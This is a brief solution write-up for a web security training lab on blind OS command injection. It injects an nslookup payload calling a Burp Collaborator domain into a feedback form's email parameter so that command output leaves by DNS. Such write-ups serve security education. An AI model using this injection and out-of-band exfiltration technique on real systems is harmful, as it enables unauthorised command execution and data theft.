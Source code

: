 # Lab 4 - Blind OS command injection with out-of-band data exfiltration

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.
```
### Solution - 

We first create a external server ie . collaborator server.

![image](https://user-images.githubusercontent.com/67383098/225314001-fc343a73-6fc5-498a-8ea8-bbaab4682c33.png)

Copy the collaborator server link - `http://zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net/`

Paste the payload `||nslookup+x.zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net|| ` (URL - encode ) in the email parameter .

![image](https://user-images.githubusercontent.com/67383098/225314704-8214e8e5-af55-4af7-af05-81e0fcb4c061.png)

Now click SEND button, click `POLL NOW button in `burp collaborator` ,

![image](https://user-images.githubusercontent.com/67383098/225315163-0dcaaa6d-3962-410f-91e4-725784cfdd96.png)


